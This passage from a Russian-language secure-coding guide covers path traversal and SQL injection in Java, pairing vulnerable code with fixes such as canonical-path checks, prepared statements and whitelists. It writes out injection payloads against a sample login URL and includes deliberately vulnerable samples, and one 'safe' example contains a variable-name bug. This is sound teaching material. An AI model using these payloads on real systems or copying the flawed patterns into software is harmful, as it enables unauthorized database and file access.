        response.getOutputStream().write(Files.readAllBytes(f.toPath()));
    } else {
        response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        response.getWriter().write("File doesn't exist or is not a file.");
    }
}
```

#### *Пример 2. Небезопасное составление имени файла*
Путь к сохраняемому файлу формируется при помощи конкатенации пути к папке temp и имени файла (`file.getOriginalFilename()`), поступившего в POST-запросе.

```java
@PostMapping("upload-image-unsafe")
public ResponseEntity<?> uploadImageUnsafe(@RequestParam("file") MultipartFile file) {
    if (file == null) return ResponseEntity.status(HttpStatus.I_AM_A_TEAPOT).body("File missing");
    try {
        String requestFileName = file.getOriginalFilename();
        File resultFile = new File(System.getProperty("java.io.tmpdir") + requestFileName);

        file.transferTo(resultFile);

        String result = String.format("%s\tFile with requestFileName %s transferred to %s (resultPath: %s)"
                , new Date(), requestFileName, resultFile, resultFile.getCanonicalPath());

        return ResponseEntity.ok().body(result);
    } catch (IOException e) {
        e.printStackTrace();
        return ResponseEntity.internalServerError().body(e.getMessage());
    }
}
```

Сформировав POST запрос вручную, можно подделать название файла, чтобы сохранить его в любое доступное для записи место:



#### *Пример 3. Небезопасное составление имени файла*
descartes-xsd-validation-ext - XsdController.java

```java
@PostMapping("upload")
public XsdResponse upload(@RequestParam("file") MultipartFile file,
                               RedirectAttributes redirectAttributes) {

    File copied = new File(System.getProperty("java.io.tmpdir") + "/" + file.getOriginalFilename());
    XsdResponse response;

    try {
        FileUtils.copyInputStreamToFile(file.getInputStream(), copied);
```

#### *Пример 4. Безопасное составление имени файла: нормализация и проверка результирующей директории*

```java
public static final String BASE_DIRECTORY = "/var/www/images/";

public void downloadFile(String fileName) throws IOException {

    File file = new File(BASE_DIRECTORY, fileName);
    if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
        // process file
        doSomething();
    } else
        throw new RuntimeException(String.format("Не валидное имя файла. %s", fileName));
}
```

#### *Пример 5. Безопасное составление имени файла: нормализация и проверка результирующей директории*

```java
static final String BASE_DIRECTORY = "c:\\temp\\";

@GetMapping("download-image-safe")
public void downloadImageSafe(@RequestParam("filename") String fileName, HttpServletResponse response) throws IOException {

    File f = new File(BASE_DIRECTORY + fileName);

    if (!f.getCanonicalPath().toLowerCase().startsWith(BASE_DIRECTORY)
            || (!f.exists() && f.isDirectory())) {
        response.setStatus(HttpServletResponse.SC_NOT_FOUND);
        response.getWriter().write("File doesn't exist or is not a file.");
    } else {
        MediaType mediaType = MediaTypeFactory.getMediaType(fileName)
                .orElse(MediaType.APPLICATION_OCTET_STREAM);
        response.setContentType(mediaType.toString());
        response.setHeader("Content-Disposition", "attachment; filename=" + f.getName());
response.getOutputStream()
        .write(("Resolved file name: " + f + "\n" + "Canonical pathname: "
                + f.getCanonicalPath() + "\n\n").getBytes());
        response.getOutputStream().write(Files.readAllBytes(f.toPath()));
    }
}
```

### *Пример 6. Безопасное составление имени файла: проверка регулярным выражением и очистка от «..»*

```java
static boolean checkFileName(final String fileName) {
    final String pattern = "^[A-Za-z0-9.\\-\\_]{1,255}$";
    return fileName.matches(pattern);
}

@PostMapping("upload")
public XsdResponse upload(@RequestParam("file") MultipartFile file, RedirectAttributes redirectAttributes) {
    String fileName = file.getOriginalFilename();
    if (fileName == null) {
        throw new RuntimeException(String.format("Отсутсвует имя файла."));
    }
    if (!checkFileName(fileName)) {
        throw new RuntimeException(String.format("Не валидное имя файла. %s", fileName));
    }
    fileName = fileName.replaceAll("\\.\\.", "");
    File copied = new File(System.getProperty("java.io.tmpdir") + "/" + fileName);
```

Еще больше примеров неправильного и правильного написания кода:
https://community.veracode.com/s/article/how-do-i-fix-cwe-73-external-control-of-file-name-or-path-in-java

Подробней о CWE:
* https://owasp.org/www-community/attacks/Path_Traversal
* https://portswigger.net/web-security/file-path-traversal
* https://learn.snyk.io/lesson/directory-traversal/

***

## 3. CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')



### 3.1. Описание
Внедрение SQL-кода (англ. SQL injection) — один из распространённых способов взлома сайтов и программ, работающих с базами данных, основанный на внедрении в запрос произвольного SQL-кода.

Внедрение SQL, в зависимости от типа используемой СУБД и условий внедрения, может дать атакующему возможность выполнить произвольный запрос к базе данных (например, прочитать содержимое любых таблиц, удалить, изменить или добавить данные), получить возможность чтения и/или записи локальных файлов и выполнения произвольных команд на атакуемом сервере.

Атаки типа «внедрение SQL» становятся возможными, когда:
* вводимые пользователем данные не проверяются, не фильтруются или не очищаются;
* динамические запросы или не параметризованные вызовы без контекстного экранирования напрямую используются в интерпретаторе;

Предположим, что на стороне клиента формируется URL – запрос, в котором передаются параметры: логин и пароль пользователя. На стороне сервера происходит извлечение этих параметров и их подстановка в SQL – запрос, выполняемый в БД.

URL – запрос имеет следующий вид:
`http://money.cbr.ru/logon?login=user&passwd=12345`

Примеры возможных SQL инъекций:
1)	Сворачивание условия WHERE к истинностному результату при любых значениях параметров.

**Запрос**: `http://money.cbr.ru/logon?login=user' or '1'='1&passwd=null' or '1'='1`

SQL – код: `SELECT * FROM users WHERE userName ='user’ OR '1' = '1' AND password='null' OR '1' = '1'`

**Результат:**



2)	Присоединение к запросу результатов другого запроса. Делается это через оператор UNION.

`http://money.cbr.ru/logon?login=null&passwd=null ' UNION SELECT * FROM users WHERE '1'='1`

`SELECT * FROM users WHERE userName ='null' AND PASSWORD='null' UNION SELECT * FROM users`

Результат – успешный доступ к информации (аналогично рисунку 1).

3)	Закомментирование части запроса.

`http://money.cbr.ru/logon?login=user' -- &passwd=null`

`SELECT * FROM users WHERE userName = 'user' -- ' AND password = 'null'`

Результат – получен доступ к записи без указания пароля:



### 3.2. Защитные меры
Для предотвращения SQL injection необходимо отказаться от написания динамических запросов или не допускать, чтобы вводимые пользователем данные (потенциально содержащие вредоносный SQL) влияли на логику выполняемого запроса. Если избежать использования динамически формируемых запросов не представляется возможным, необходимо применять защитные меры, описанные ниже.
#### 3.2.1. Использование Prepared Statements

Класс `java.sql.Statement` используется для выполнения SQL-запросов. Существует три типа класса Statement, которые являются как бы контейнерами для выполнения SQL-выражений через установленное соединение:
1. Statement, базовый;
2. PreparedStatement, унаследованный от Statement – параметризованные запросы;
3. CallableStatement, унаследованный от PreparedStatement – хранимые процедуры.

Все классы специализируются для выполнения различных типов запросов:

1. Statement предназначен для выполнения простых SQL-запросов без параметров; содержит базовые методы для выполнения запросов и извлечения результатов.
2. PreparedStatement используется для выполнения SQL-запросов с или без входных параметров; добавляет методы управления входными параметрами.
3. CallableStatement используется для вызовов хранимых процедур; добавляет методы для манипуляции выходными параметрами.

#### *Пример небезопасного использования класса Statement*
В данном примере запрос (query) формируется с помощью конкатенации строк: к SQL – команде добавляются введенные пользователем логин и пароль.

```java
String query = "SELECT id, userName, email, cash FROM Wallets WHERE username = '"
        + loginForm.username() + "' AND password = '"
        + DigestUtils.md5Hex(loginForm.password()) + "'";

try (Connection connection = DriverManager.getConnection(url, sql_user, sql_password);
     Statement statement = connection.createStatement();
     ResultSet resultSet = statement.executeQuery(query)) {

    return ResponseEntity.ok("Query: " + query + "\n" +
            "Результат SQL запроса с помощью Statement:\n" + printResult(resultSet));
```

Подставив вместо обычного логина выражение `user' -- `, и введя любой пароль нам удается успешно получить запись из таблицы:



Подставив вместо обычного логина выражение `null' or '1'='1' -- `, и введя любой пароль нам удается успешно получить все записи из таблицы, не обладая никакими знаниями о структуре и содержании БД:



#### *Пример безопасного использования класса PreparedStatement*

```java
String query = "SELECT id, userName, email, cash FROM Wallets WHERE username = ? AND password = ?";

try (Connection connection = DriverManager.getConnection(url, sql_user, sql_password);
     PreparedStatement statement = connection.prepareStatement(query)) {

    statement.setString(1, loginForm.username());
    statement.setString(2, DigestUtils.md5Hex(loginForm.password()));

    ResultSet resultSet = statement.executeQuery();
    query = statement.toString().substring(query.indexOf(":") + 2);

    return ResponseEntity.ok("Query: " + query + "\n" +
            "Результат SQL запроса с помощью Prepared Statement:\n" + printResult(resultSet));
```

Подставив вместо обычного логина выражение `null' or '1'='1' -- `, и введя любой пароль, нам не удается получить данные из таблицы. Все введенные значения вставляются в запрос с помощью метода `setString`. Он сам понимает, где нужны кавычки, а где нет, и оборачивает ими все входные данные.

Принцип защиты от SQL – инъекций при использовании PreparedStatement:

При получении сервером SQL – запроса, он проходит следующие фазы (рисунок 4):
1. Парсинг и нормализация - на этом этапе запрос проверяется на синтаксис и семантику. Проверяется, существуют ли ссылки на таблицу и столбцы, используемые в запросе.
2. Компиляция - на этом этапе ключевые слова, используемые в запросе, например SELECT, FROM, WHERE и т.д., преобразуются в формат, понятный для машины. Это этап, на котором интерпретируется запрос и принимается решение о соответствующем действии.
3. Оптимизация запроса – определяется и выбирается лучший способ выполнения запроса.
4. Кэширование – выбранный на предыдущем этапе способ запоминается для ускорения повторного выполнения SQL – запроса.
5. Выполнение – на этом этапе выполняется SQL – запрос, и данные возвращаются пользователю в виде объекта ResultSet.



Рисунок 4.

PreparedStatement не является готовым SQL – запросом, а содержит заполнители («плэйсхолдеры»), на место которых во время выполнения подставляются данные.

При использовании PreparedStatement изменяется алгоритм выполнения SQL – запроса (рисунок 5):

Фазы 1 – 4 не меняются, однако, в 4 фазе производится кэширование запроса вместе с заполнителями. Запрос на этом этапе уже скомпилирован и преобразован в машинно-понятный формат. Теперь во время выполнения, когда поступают данные, предоставленные пользователем, предварительно скомпилированный запрос извлекается из кэша, а заполнители заменяются данными, предоставленными пользователем. После того, как заполнители заменяются пользовательскими данными, окончательный запрос не компилируется / не интерпретируется снова, и механизм SQL Server обрабатывает пользовательские данные как чистые данные, а не SQL, который необходимо анализировать или компилировать снова.



Рисунок 5.

Подробнее - https://javabypatel.blogspot.com/2015/09/how-prepared-statement-in-java-prevents-sql-injection.html

#### 3.2.2. Использование хранимых процедур
Хранимые процедуры представляют собой набор команд SQL, которые могут компилироваться и храниться на сервере. Особенностью процедур является то, что есть возможность передавать аргументы и выводить различные данные в зависимости от аргумента. Процедура является сущностью SQL, которую создают один раз, а затем вызывают, передавая аргументы.

Разница между PreparedStatement и CallableStatement заключается в том, что код SQL для хранимой процедуры определяется и сохраняется в самой базе данных, а затем вызывается из приложения. Оба этих метода имеют одинаковую эффективность в предотвращении внедрения SQL-кода.

Пример безопасного использования класса `CallableStatement`:

На сервере MySQL в БД DB1 создана хранимая процедура `proc2`:

```sql
USE DB1;
DELIMITER //
CREATE PROCEDURE proc2 (login VARCHAR(20), passwd VARCHAR(20))
BEGIN
SELECT * FROM users
WHERE userName = login AND password_md5 = passwd;
END //
DELIMITER ;
```

Вызов: CALL `proc2`('user', '040b7cf4a55014e185813e0644502ea9')

Вызов хранимой процедуры proc2 в java:

```java
try {
   connection = DriverManager.getConnection(url, sql_user, sql_password);
   callableStatement = connection.prepareCall("{call proc2(?,?)}");
   callableStatement.setString(1, user.userName);
   callableStatement.setString(2, DigestUtils.md5Hex(user.password));
   resultSet = callableStatement.executeQuery();
   System.out.println("\nРезультат SQL запроса с помощью Callable Procedure:\n");

   while (resultSet.next()) {
      printResult(resultSet);
   }

} catch (SQLException e) {
    e.printStackTrace();
}
```

#### 3.2.3. Проверка ввода по белому списку
В случаях, когда параметры SQL запроса могут принимать ограниченное число вариантов необходимо проверять вводимые данные по белому списку и вставлять в запрос соответствующие вводимым данным значения, например:

```java
String value; //можно сделать enum/list и проверять на наличие value в enum
try {
    value = switch (user.userName) {
        case "Administrator" -> "admin";
        case "User" -> "user";
        case "Sanya" -> "sanek";
        case "User2" -> "user2";
        default -> throw new InputValidationException("Unexpected value provided for user " +
                "\"" + user.userName + "\"");
    };
} catch (InputValidationException e) {
    e.printStackTrace();
}

String query = "SELECT id, userName, email, cash FROM users2 WHERE userName = '" + value +
        "' AND password_md5 = '" + DigestUtils.md5Hex(user.password) + "'";
```

\* пример с аутентификационными данными показательный и в реальной жизни не применяется

Теперь при попытке подстановки SQL кода в имя пользователя запрос к БД не производится и выводится сообщение о недопустимом значении параметра:



#### 3.2.4. Экранирование всех вводимых пользователем данных
Этот метод следует использовать только в крайнем случае, когда невозможно применить вышеперечисленные варианты. Метод заключается в том, что перед помещением пользовательского ввода в SQL запрос данные экранируются по правилам используемой СУБД.

Каждая СУБД поддерживает одну или несколько схем экранирования символов, специфичных для определенных типов запросов. Если экранировать весь вводимый пользователем ввод, используя правильную схему экранирования для используемой базы данных, СУБД не будет путать этот ввод с кодом SQL, написанным разработчиком, что позволит избежать любых возможных уязвимостей, связанных с внедрением SQL-кода.

Подробнее об экранировании специальных символов в SQL запросах см. в http://www.orafaq.com/wiki/SQL_FAQ#How_does_one_escape_special_characters_when_writing_SQL_queries.3F

Существуют готовые библиотеки для управления безопасностью web – приложений, например, OWASP Enterprise Security API (ESAPI). Её классы содержат как готовые реализации множества алгоритмов (в т.ч. и для санитизации SQL запросов), так и абстрактные методы, которые можно реализовать самостоятельно в зависимости от специфики приложения. 

#### *Пример использования ESAPI:*

```java
MySQLCodec codec = new MySQLCodec(MySQLCodec.Mode.STANDARD);
Encoder encoder = ESAPI.encoder();

String query = "SELECT id, userName, email, cash FROM users2 WHERE userName = '" +
      encoder.encodeForSQL(codec, user.userName) + "' AND password_md5 = '" +
      DigestUtils.md5Hex(user.password) + "'";
```

Теперь входные данные (user.userName) декодированы в безопасный для MySQL вид, и их можно использовать в запросе с помощью Statement, PreparedStatement  или CallableStatement. Например, строка `user' or '1'='1' -- ` будет преобразована в строку `user\' or \'1\'\=\'1\' \-\-`:

`SELECT id, userName, email, cash FROM users2 WHERE userName = 'user\' or \'1\'\=\'1\' \-\- ' AND password_md5 = ee11cbb19052e40b07aac0ca060c23ee`

### 3.3. Java Persistence API и Hibernate. HQL injection и JPQL injection



JPA (Java Persistence API) это спецификация Java EE и Java SE, описывающая систему управления сохранением java объектов в таблицы реляционных баз данных в удобном виде. Сама Java не содержит реализации JPA, однако есть существует много реализаций данной спецификации от разных компаний (открытых и нет). Это не единственный способ сохранения java объектов в базы данных (ORM систем), но один из самых популярных в Java мире.



Hibernate одна из самых популярных открытых реализаций последней версии спецификации (JPA 2.1). То есть JPA только описывает правила и API, а Hibernate реализует эти описания, впрочем, у Hibernate (как и у многих других реализаций JPA) есть дополнительные возможности, не описанные в JPA (и не переносимые на другие реализации JPA).

Запросы, написанные на Hibernate Query Language (HQL) и Java Persistence Query Language (JPQL) так же могут содержать SQL инъекции. Для предотвращения SQL инъекций рекомендуется использовать Named parameters, Positional parameters, Criteria Query Parameters и т.д.

### 3.4. Примеры
#### *Пример 1. Небезопасное использование Hibernate Query Language (HQL)*

В данном примере SQL запрос строится при помощи конкатенации строк с использованием `javax.persistence.EntityManager`:

```java
@Autowired
private EntityManager em;

private static final String HQL_UNSAFE = "FROM Product t WHERE t.name='";

public List<Product> findByName_HQL_unsafe(String name) {
    return (List<Product>) em.createQuery(HQL_UNSAFE + name + "'").getResultList();
    //.getSingleResult() - усложнит, но не устранит инъекцию
}
```

#### *Пример 2. Небезопасное использование HQL*
В данном примере SQL запрос строится при помощи конкатенации строк. Используется перегруженный метод <T> TypedQuery<T> createQuery(String var1, Class<T> var2)

```java
@Autowired
private EntityManager em;

private static final String HQL_UNSAFE = "FROM Product t WHERE t.name='";

public List<Product> findProductByClassName_HQL_unsafe(String name) {
    return (List<Product>) em.createQuery(HQL_UNSAFE + name + "'", Product.class).getResultList();
    //.getSingleResult() - усложнит, но не устранит инъекцию
}
```

#### *Пример 3. Небезопасное использование HQL*
В данном примере SQL запрос строится при помощи конкатенации строк с использованием org.hibernate.Session:

```java
private static final String HQL_UNSAFE = "FROM Product t WHERE t.name='";

private Session session = HibernateSessionFactory.getSessionFactory().openSession();


public List<Product> findByName_HQL_Session_unsafe(String name) {
    return session.createQuery(HQL_UNSAFE + name + "'").list();
}
```

#### *Пример 4. Безопасное использование HQL*
В данном примере SQL запрос строится при помощи Positional parameters:

```java
private static final String HQL_SAFETY = "FROM Product t WHERE t.name=?1";

public List<Product> findByName_HQL_safety(String name) {
    return (List<Product>) em.createQuery(HQL_SAFETY).setParameter(1, name).getResultList();
}
```

#### *Пример 5. Безопасное использование HQL]*
В данном примере SQL запрос строится при помощи Named parameters:

```java
private static final String HQL_SAFETY_2 = "FROM Product t WHERE t.name = :paramName";

public List<Product> findByName_HQL_Session_safety(String name) {
    return session.createQuery(HQL_SAFETY_2).setParameter("paramName", name).list();
}
```

#### *Пример 6. Безопасное использование Java Persistence Query Language (JPQL)*
В данном примере строится нативный SQL запрос при помощи Positional parameters:

```java
public interface JpaProductRepository extends JpaRepository<Product, Integer> {

//    Native Query with Positional Parameters
    @Query(value = "SELECT * FROM Products t WHERE t.name LIKE ?1", nativeQuery = true)
    List<Product> findByName_JPQL_native(String name);
```
#### *Пример 7. Безопасное использование Java Persistence Query Language (JPQL)*
В данном примере SQL запрос строится при помощи Positional parameters:
```java
public interface JpaProductRepository extends JpaRepository<Product, Integer> {

/*Positional Parameters: the parameters is referenced by their positions in the query
(defined using ? followed by a number (?1, ?2, …).
Spring Data JPA will automatically replace the value of each parameter in the same position.*/
    @Query("SELECT t FROM Product t WHERE t.name LIKE %?1%")
    List<Product> findByName_JPQL_pos_param(String name);
```

#### *Пример 8. Безопасное использование Java Persistence Query Language (JPQL)*
В данном примере SQL запрос строится при помощи Named parameters:

```java
public interface JpaProductRepository extends JpaRepository<Product, Integer> {

    // Named Parameters. A named parameter starts with : followed by the name of the parameter
    @Query("SELECT t FROM Product t WHERE t.name LIKE %:id%")
    List<Product> findByName_JPQL_name_param(@Param("id") String name);
```

#### *Пример 9. Безопасное использование JPA Criteria API*
В данном примере SQL запрос строится при помощи Criteria Query Parameters

```java
public List<Product> findByName_HQL_criteriaApi_safety(String name) {
    CriteriaBuilder cb = em.getCriteriaBuilder();
    CriteriaQuery<Product> cq = cb.createQuery(Product.class);
    Root<Product> root = cq.from(Product.class);
    cq.select(root).where(cb.equal(root.get(Product_.name), name));
    return em.createQuery(cq).getResultList();
}
```

#### *Пример 10. Небезопасное использование MyBatis*
Обратите внимание на обозначение параметра `${phone}` в приведенном ниже запросе. По умолчанию использование синтаксиса `${}` приводит к тому, что MyBatis напрямую вводит не модифицированную строку в SQL-запрос. MyBatis НЕ изменяет и не экранирует строку перед подстановкой.

```xml
<select id="getPerson" parameterType="string" resultType="com.example.cwe.sqli.entity.Person">
    SELECT * FROM PERSON WHERE NAME = #{name} AND PHONE LIKE '${phone}';
</select>
```

#### *Пример 11. Безопасное использование MyBatis*
Обратите внимание на обозначение параметра `#{id}`. По умолчанию использование синтаксиса `#{}` приводит к тому, что MyBatis использует PreparedStatement для безопасной подстановки значений в SQL запрос.
```xml
<select id="getPerson" parameterType="int" resultType="com.example.cwe.sqli.entity.Person">
SELECT * FROM PERSON WHERE ID = #{id}
</select>
```

#### *Пример 12. Небезопасное использование JPQL*
Not found.

#### *Пример 13. Корректное использование – белый список*
```java
private static final Set<String> VALID_COLUMNS_FOR_ORDER_BY
        = Collections.unmodifiableSet(Stream
        .of("acc_number", "branch_id", "balance")
        .collect(Collectors.toCollection(HashSet::new)));

public List<AccountDTO> safeFindAccountsByCustomerId(String customerId, String orderBy) throws Exception {
    String sl = "select "
            + "customer_id,acc_number,branch_id,balance from Accounts"
            + "where customer_id = ? ";
    if (VALID_COLUMNS_FOR_ORDER_BY.contains(orderBy)) {
        sql = sql + " order by " + orderBy;
    } else {
        throw new IllegalArgumentException("Nice try!");
    }
    Connection c = dataSource.getConnection();
    PreparedStatement p = c.prepareStatement(sql);
    p.setString(1, customerId);
    // ... result set processing omitted
}
```

Еще больше примеров можно посмотреть на https://bobby-tables.com/java

### 3.5. В заключении

